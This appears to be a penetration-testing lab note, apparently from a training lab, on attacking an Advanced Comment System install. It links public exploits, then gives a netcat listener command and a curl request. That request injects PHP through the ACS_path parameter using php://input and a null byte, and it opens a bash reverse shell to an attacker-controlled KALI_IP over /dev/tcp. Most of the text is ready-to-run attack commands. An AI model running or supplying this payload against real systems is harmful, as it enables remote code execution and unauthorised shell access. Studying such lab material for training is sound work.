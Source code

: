 ## Public Exploits

**Exploit Database**
```
https://www.exploit-db.com/exploits/9623
```

**Packet Storm Security**
```
https://packetstormsecurity.com/files/165108/
```

========

## Attack

**Netcat Listener**
> [!important] 
> You need to use port 443 as listening port as other ports are being filtered
``` shell
sudo nc -nlvp 443
```

****
> [!note] 
>  Replace the KALI_IP with your Kali's IP address 
``` shell
curl -s --data "<?system('/bin/bash -i >& /dev/tcp/KALI_IP/443 0>&1');?>" 'http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```
